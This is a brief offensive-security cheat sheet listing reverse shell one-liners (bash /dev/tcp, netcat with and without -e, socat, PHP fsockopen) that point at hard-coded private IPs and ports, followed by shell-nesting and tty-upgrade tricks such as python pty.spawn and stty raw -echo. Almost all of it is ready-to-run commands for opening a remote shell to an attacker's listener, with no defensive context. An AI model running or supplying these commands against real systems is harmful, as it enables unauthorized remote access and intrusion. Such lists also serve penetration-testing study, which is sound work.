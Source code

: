 Web shells 

Reverse shell commands  
bash
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):        
    nc -e /bin/sh 172.16.5.1 4242   
nc openbsd (no -e):     
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f
socat                     
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444
PHP            
   php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
Also Ruby, Java and Python: Reverse shells cheat sheet    

Nesting shells                
  bash -p    /bin/sh -p 


Upgrading to a pseudo terminal / tty     
    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";'
  
  
  SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
